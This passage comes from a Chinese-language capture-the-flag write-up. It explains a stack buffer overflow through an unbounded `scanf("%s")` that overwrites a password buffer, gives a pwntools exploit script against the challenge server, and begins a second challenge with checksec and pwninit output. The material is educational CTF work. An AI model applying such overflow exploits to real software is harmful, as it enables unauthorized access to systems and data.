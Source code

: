 ```c
         cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
  }
  *(undefined *)(len + (long)output) = '\0';
  return;
}
```

原本以為是 `generate_password` 有問題。結果發現`scanf("%s")`  可以讓 `input` 蓋到其他 stack 上的記憶體，且 `input` 在  `rbp-0x100` 、 `password` 在 `rbp-0x90` 所以可以把 `password` 覆寫成任意字串
```python
from pwn import *

# p = process("./main")
p = remote("readme-please.ctf.pearlctf.in", 30039)
payload = b"a" * 111 + b'\x00' + b"a" * 111 + b'\x00'

p.recvuntil(b": ")
p.sendline(b"files/flag.txt")

p.recvuntil(b": ")
p.sendline(payload)

flag = p.recvline()

p.close()

print("flag: " + flag.decode())
```


## Mr. %ROPOT%
保護機制
```bash
$ checksec chall
[*] '/home/kali/CTF/pwn/MrROPOT/mrropot/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

因為有提供 `libc` 所以用 [pwninit](https://github.com/io12/pwninit) patch binary 使本地測試更順利
```bash
$ pwninit
bin: ./chall
libc: ./libc.so.6
ld: ./ld-linux-x86-64.so.2

unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.39-0ubuntu8.3_amd64.deb
copying ./chall to ./chall_patched
running patchelf on ./chall_patched
writing solve.py stub
```
